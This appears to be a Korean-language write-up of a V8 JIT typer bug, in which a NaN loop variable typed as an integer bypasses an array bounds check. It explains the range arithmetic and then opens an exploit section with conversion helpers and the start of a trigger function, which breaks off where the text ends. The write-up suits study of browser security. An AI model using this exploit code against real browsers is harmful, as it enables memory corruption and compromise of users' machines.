 oob가 가능한 코드이다. `i`에 실제 값은 `NaN`인데 `kInteger`타입으로 되어있다. 실제 oob 타입을 만드는 변수는 아래 연산으로 만들어진다.

```cpp
var value = Math.max(i, 0x100);  // [0x100, inf]
value = -value;                  // [-inf, -0x100]
value = Math.max(value, -0x101); // [-0x101, -0x100]
value = -value;                  // [0x100, 0x101]
value -= (0x100);                // [0x2, 0x3]

value >>= 1;                     // NaN >> 1 = 0
value += 10;                     // 0 + 10
```

변수 range의 범위를 조정하여 3번째 줄에서 무조건 `value`를 선택하게 만들어 실제 range와 값을 다르게 만들었다. JIT이 적용되지 않은 경우에는 `NaN`으로 모두 `NaN`이 나오다가 밑에서 `value >>= 1` 에서 0으로 세팅된다. JIT이 적용되면 `NaN`(0)인 값을 가진채로 `value -= 0x100`을 하게 되어 음수가 되는데 `range`는 `[2, 3]`이라서 Array를 생성할 때 체크를 우회하게 된다.

# exploit

```jsx
let conversion_buffer = new ArrayBuffer(8);
let float_view = new Float64Array(conversion_buffer);
let int_view = new BigUint64Array(conversion_buffer);
BigInt.prototype.hex = function() {
    return '0x' + this.toString(16);
};
BigInt.prototype.i2f = function() {
    int_view[0] = this;
    return float_view[0];
}
BigInt.prototype.smi2f = function() {
    int_view[0] = this << 32n;
    return float_view[0];
}
Number.prototype.f2i = function() {
    float_view[0] = this;
    return int_view[0];
}
Number.prototype.f2smi = function() {
    float_view[0] = this;
    return int_view[0] >> 32n;
}
Number.prototype.i2f = function() {
    return BigInt(this).i2f();
}
Number.prototype.smi2f = function() {
    return BigInt(this).smi2f();
}

var yee2;
function trigger() {
    var x = -Infinity;
    var k = 0;
    for (var i = 0; i < 1; i += x) {
        if (i == -Infinity) {
            x = +Infinity;
        }
    }

    var value = Math.max(i, 0x100); // [0x100, inf]
    value = -value; // [-inf, -0x100]
    value = Math.max(value, -0x101);    // [-0x101, -0x100]
    value = -value; // [0x100, 0x101]
    value -= (0x100); // [0x2, 0x3]
```